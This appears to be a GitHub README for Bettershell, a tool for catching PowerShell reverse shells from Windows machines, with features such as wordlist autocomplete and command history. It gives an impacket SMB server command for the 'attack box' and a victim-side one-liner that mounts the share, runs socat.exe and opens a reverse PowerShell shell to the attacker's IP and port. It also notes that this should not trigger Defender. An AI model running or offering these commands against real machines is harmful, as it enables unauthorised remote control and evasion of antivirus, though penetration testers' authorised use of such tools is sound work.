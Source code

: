 Bettershell is a basic netcat client paired with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

Using bettershell in place of a typical nc listener, you can catch Powershell reverse shells that don't die on ctrl+c, autocomplete based on wordlist entries and command output, allow arrowkey movement to edit pasted commands without those annoying symbols, and that reference a searchable command history. You also get an accurate path prompt with no weird command echo. Best of all, it's blue. Is it really powershell if it isn't blue?

Bettershell can be used to catch any reverse shell from a Windows box. For stderr piping support, the included socat.exe binary can easily be executed on the victim from an SMB share.

To do so, open port 445, then start up an impacket SMB server on your attack box in the directory with socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
to get a reverse shell, execute the following on your victim box:
```
cmd.exe /c net use x: \\YOURIP\SMB /user:user pass & x:\socat.exe tcp-connect:$IP:$PORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking PCs that don't support it.
